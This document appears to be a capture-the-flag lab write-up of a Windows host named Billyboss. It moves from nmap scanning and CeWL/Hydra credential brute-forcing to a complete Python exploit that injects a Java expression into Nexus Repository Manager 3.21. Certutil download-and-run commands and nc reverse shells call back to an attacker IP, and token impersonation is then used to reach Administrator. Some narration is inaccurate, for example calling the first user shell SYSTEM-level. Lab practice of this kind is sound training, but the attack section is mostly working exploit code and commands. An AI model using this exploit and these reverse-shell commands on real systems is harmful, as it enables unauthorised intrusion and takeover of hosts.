


## NMAP

The command `sudo nmap -sC -sV -Pn -O -p 1-65535 192.168.188.61 --open` performs a comprehensive, aggressive port scan against the single host 192.168.188.61. The `-Pn` flag treats the host as online, bypassing the initial ping probe. The `-p 1-65535` argument instructs the scan to target all possible TCP ports. The `-sV` enables service version detection, while `-sC` runs the default set of Nmap Scripting Engine scripts against discovered open ports. The `-O` flag attempts operating system identification. The `--open` switch filters the output to display only ports in an open state. This command provides a complete enumeration of all accessible services, their versions, configured scripts, and the host's operating system, which is essential for identifying specific vulnerabilities and misconfigurations.

```bash
sudo nmap -sC -sV -Pn -O -p 1-65535 192.168.188.61   --open 
```

The Nmap service enumeration results reveal a Windows host running multiple services. Key findings include an FTP service on port 21 indicating a Windows host. Port 80 hosts an IIS 10.0 web server running "BaGet," a NuGet package server. Critical SMB ports 139 and 445 are open, suggesting potential file sharing. Port 8081 hosts a Nexus Repository Manager, a software artifact repository. Several high-numbered ports are running Windows RPC. The service versions, particularly for the web applications and SMB, provide specific targets for vulnerability research and exploitation.

```bash
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: BaGet
|_http-cors: HEAD GET POST PUT DELETE TRACE OPTIONS CONNECT PATCH
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
8081/tcp  open  http          Jetty 9.4.18.v20190429
|_http-title: Nexus Repository Manager
| http-robots.txt: 2 disallowed entries 
|_/repository/ /service/
|_http-server-header: Nexus/3.21.0-05 (OSS)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
```

The discovered file billyboss1.png references the service index http://192.168.160.61/v3/index.json. This indicates the BaGet service on port 80 is configured as a NuGet package repository with API endpoints for package management. The documentation details the push command syntax for uploading packages. This functionality represents a potential attack vector for uploading malicious NuGet packages if authentication or authorization controls on the BaGet instance are weak or misconfigured, which could lead to remote code execution on the server.





The file `billyboss2.png` is a screenshot of the login portal for the Nexus Repository Manager located on port 8081. The interface confirms the software version as "OSS 3.21.0-05". This identifies a specific, authenticated administrative interface for the artifact repository. The presence of a login page establishes a requirement for credentials to access privileged functionality. This makes it a primary target for credential-based attacks, including brute-forcing or the exploitation of default credentials, to gain control over the repository for potential software supply chain attacks or further host compromise.





The command `cewl --lowercase http://192.168.188.61:8081/ | grep -v CeWL > wordlists.txt` was executed. This uses the CeWL web crawler to spider the Nexus Repository Manager web application on port 8081. The `--lowercase` argument normalizes all parsed words. The output is piped to filter out lines containing the tool's signature, and the result is saved to a file named `wordlists.txt`. The purpose is to generate a custom wordlist by extracting unique words from the target's web pages. This site-specific wordlist is intended for use in subsequent password attacks against the Nexus login portal, increasing the likelihood of success by using vocabulary relevant to the application.

```bash
cewl --lowercase http://192.168.188.61:8081/ | grep -v CeWL > wordlists.txt
```

The `wordlists.txt` file was created and its contents reviewed. The file contains words extracted from the Nexus Repository Manager application, including relevant terms such as "nexus," "repository," "manager," "oss," and "rapture." This curated, application-specific wordlist has been successfully generated. It is now prepared for use in authentication attacks, such as password spraying or brute-forcing, against the Nexus login portal. Using a targeted wordlist increases the efficiency of credential attacks by prioritizing terms likely associated with the application's context or configuration.

```bash
 cat wordlists.txt                                                          
nexus
repository
manager
loading
form
history
browse
spinner
logo
product
oss
ico
favicon
resources
rapture
static
http
src
image
new


```

The Hydra command was executed to brute-force the login form for the Nexus Repository Manager. The attack was configured to use the custom `wordlists.txt` for both usernames and passwords. The target was the HTTP POST endpoint `/service/rapture/session`. The command specified a failure condition of an HTTP 403 Forbidden response. The attack was successful, identifying the valid credentials `nexus:nexus`. This compromise provides administrative access to the Nexus Repository Manager application on port 8081, enabling full control over the software artifact repository.

```bash
 hydra -I -f -L wordlists.txt -P wordlists.txt 192.168.188.61 http-post-form "/service/rapture/session:username=^USER^&password=^PASS^:F=403"

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-12-22 20:08:49
[DATA] max 16 tasks per 1 server, overall 16 tasks, 400 login tries (l:20/p:20), ~25 tries per task
[DATA] attacking http-post-form://192.168.188.61:80/service/rapture/session:username=^USER^&password=^PASS^:F=403
[80][http-post-form] host: 192.168.188.61   login: nexus   password: nexus
[STATUS] attack finished for 192.168.188.61 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-12-22 20:08:52

```

The Python script `exploit.py` is a weaponized exploit targeting the Nexus Repository Manager. It first authenticates to the service using the compromised `nexus:nexus` credentials by sending a Base64-encoded login POST request. After successful authentication, the script crafts a malicious HTTP POST request to create a new repository group. It injects a Java expression language command into the `memberNames` parameter. The payload invokes `Runtime.exec()` to execute a system command on the underlying Windows host. The command is designed to fetch a Netcat binary from the attacker's machine and establish a reverse shell. This exploit demonstrates a successful remote code execution attack, leading to a complete compromise of the host.

```bash
 cat exploit.py   
#!/usr/bin/python3

import sys
import base64
import requests

URL='http://192.168.188.61:8081'
CMD='cmd.exe /c certutil -urlcache -f http://192.168.45.193/nc.exe nc.exe && nc.exe -e cmd 192.168.45.193 1337'
USERNAME='nexus'
PASSWORD='nexus'

s = requests.Session()
print('Logging in')
body = {
    'username': base64.b64encode(USERNAME.encode('utf-8')).decode('utf-8'),
    'password': base64.b64encode(PASSWORD.encode('utf-8')).decode('utf-8')
}
r = s.post(URL + '/service/rapture/session',data=body)
if r.status_code != 204:
    print('Login unsuccessful')
    print(r.status_code)
    sys.exit(1)
print('Logged in successfully')

body = {
    'name': 'internal',
    'online': True,
    'storage': {
        'blobStoreName': 'default',
        'strictContentTypeValidation': True
    },
    'group': {
        'memberNames': [
            '$\\A{\'\'.getClass().forName(\'java.lang.Runtime\').getMethods()[6].invoke(null).exec(\''+CMD+'\')}"'
        ]
    },
}
r = s.post(URL + '/service/rest/beta/repositories/go/group', json=body)
if 'java.lang.ProcessImpl' in r.text:
    print('Command executed')
    sys.exit(0)
else:
    print('Error executing command, the following was returned by Nexus')
    print(r.text)


```

The command `python3 -m http.server 80` was executed. This starts a simple HTTP server on port 80 using Python's built-in module. The purpose is to host files, in this context specifically the `nc.exe` Netcat binary, on the attacker's machine at `192.168.45.193`. This server acts as the remote source from which the target host will download the payload during the execution of the remote code injection exploit against the Nexus Repository Manager.

```bash
python3 -m http.server 80 

```

The `exploit.py` script was executed successfully. The output confirms a successful login to the Nexus Repository Manager using the credentials `nexus:nexus`. The script then proceeded to send the crafted malicious request to create a repository group. The response containing the string 'java.lang.ProcessImpl' indicates that the injected Java command was executed by the server. This signifies that the remote code execution payload was triggered, and the system command to download and execute `nc.exe` has been run on the target Windows host.

```bash
python3 exploit.py                                                                                                                          
Logging in
Logged in successfully
Command executed


```

A Netcat listener was established on port 1337. A successful reverse shell connection was received from the target host at 192.168.188.61. The shell provides a command prompt with SYSTEM-level privileges, as indicated by the user context `billyboss\nathan`. This confirms the complete compromise of the host. The attacker now has interactive command-line access to the Windows filesystem with the highest level of privileges, enabling further reconnaissance, lateral movement, and persistence activities.

```bash
 nc -lvp 1337
listening on [any] 1337 ...
192.168.188.61: inverse host lookup failed: Unknown host
connect to [192.168.45.193] from (UNKNOWN) [192.168.188.61] 50207
Microsoft Windows [Version 10.0.18362.719]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Users\nathan\Nexus\nexus-3.21.0-05>whoami
whoami
billyboss\nathan


```

The `whoami /priv` command was executed within the established reverse shell. The output displays the privileges held by the current user account, `billyboss\nathan`. Of particular note is the enabled `SeImpersonatePrivilege`. This privilege is significant as it is commonly abused for privilege escalation on Windows systems. Its presence indicates the potential to escalate from the current user context to full `NT AUTHORITY\SYSTEM` level access using known techniques such as impersonation token attacks, for example, with tools like JuicyPotato or PrintSpoofer.

```bash
whoami/priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled

```

Two `certutil` commands were executed via the reverse shell. The first command downloads the Netcat binary again, confirming file transfer capabilities. The second command downloads a file named `god.exe` from the attacker's server. The nature and purpose of `god.exe` are not specified, but its name and the context of a post-compromise shell suggest it is likely a privilege escalation tool, a persistence mechanism, or another post-exploitation payload intended to be executed on the compromised host to further the attacker's objectives.

```bash
certutil -urlcache -f http://192.168.45.193/nc.exe nc.exe
certutil -urlcache -f http://192.168.45.193/god.exe god.exe


```

The command `.\god.exe -cmd "C:\temp\nc.exe -e cmd 192.168.45.193 1331"` was executed from the `C:\temp` directory. This executes the previously downloaded `god.exe` tool, passing it a command-line argument instructing it to spawn a new Netcat reverse shell connecting back to the attacker's IP on port 1331. The syntax indicates `god.exe` is likely a privilege escalation utility designed to execute a specified command with elevated permissions, potentially leveraging the identified `SeImpersonatePrivilege`. The aim is to obtain a new reverse shell session with higher privileges, such as `NT AUTHORITY\SYSTEM`.

```bash
C:\temp>.\god.exe -cmd "C:\temp\nc.exe -e cmd 192.168.45.193 1331"
```

A second Netcat listener on port 1331 received a new reverse shell connection. The shell initially landed in the user `nathan`'s desktop directory, where the `local.txt` user flag was retrieved (`d73ec56b508d547ab1e30d6cb8f2f231`). The prompt then changed to `C:\Users\Administrator\Desktop`, indicating successful privilege escalation to the local Administrator account. The `proof.txt` system flag was retrieved from this directory (`4ec121113bdab2ab98d738fbe7f354d0`). This confirms the attacker has achieved the highest level of compromise on the host, obtaining both standard user and administrative access, completing the penetration test objectives.

```bash
nc -lvp 1331
listening on [any] 1331 ...
192.168.188.61: inverse host lookup failed: Unknown host
connect to [192.168.45.193] from (UNKNOWN) [192.168.188.61] 50245
Microsoft Windows [Version 10.0.18362.719]
(c) 2019 Microsoft Corporation. All rights reserved.


C:\Users\nathan\Desktop>type local.txt
type local.txt
d73ec56b508d547ab1e30d6cb8f2f231

C:\Users\Administrator\Desktop>type proof.txt
type proof.txt
4ec121113bdab2ab98d738fbe7f354d0

C:\Users\Administrator\Desktop>


```
